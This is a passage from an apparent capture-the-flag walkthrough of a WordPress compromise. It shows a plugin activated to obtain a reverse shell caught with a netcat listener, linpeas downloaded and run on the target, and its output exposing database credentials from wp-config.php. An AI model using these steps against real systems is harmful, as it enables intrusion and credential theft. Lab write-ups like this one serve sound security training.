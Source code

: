 Then I activated the plugin on the **Plugin installed** page.
<div><p align="center"><img src="img/activate.png"></div>
On the attacking machine I started a listener with netcat and got the connection.

```
$ rlwrap nc -lnvp 1235
listening on [any] 1235 ...
connect to [10.9.15.73] from (UNKNOWN) [10.10.103.161] 34182
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@b823de5b84e0:/var/www/html/wp-admin$ 
-----
          
www-data@c283b1285d53:/var/www/html/wp-admin$ 
```

First, I downloaded linpeas on the target machine and launched it. It highlighted two interesting things to me, including:

* db credentials
```
╔══════════╣ Analyzing Wordpress Files (limit 70)
-rw-r--r-- 1 www-data www-data 3262 Oct  4 09:28 /var/www/html/wp-config.php                                                                                                                                                                
define( 'DB_NAME', 'wpdb');
define( 'DB_USER', 'wpdbuser');
define( 'DB_PASSWORD', 'Ceixahz5');
define( 'DB_HOST', 'db');
```

* Interfaces

```
╔══════════╣ Interfaces
Inter-|   Receive                                                |  Transmit                                                                                                                                                                
 face |bytes    packets errs drop fifo frame compressed multicast|bytes    packets errs drop fifo colls carrier compressed
    lo:   30420     424    0    0    0     0          0         0    30420     424    0    0    0     0       0          0
  eth2:  899801     771    0    0    0     0          0         0   118992     568    0    0    0     0       0          0
  eth1:  790965    1156    0    0    0     0          0         0   145094    1305    0    0    0     0       0          0
  eth0:  187939    1618    0    0    0     0          0         0  2182172    1254    0    0    0     0       0          0
```
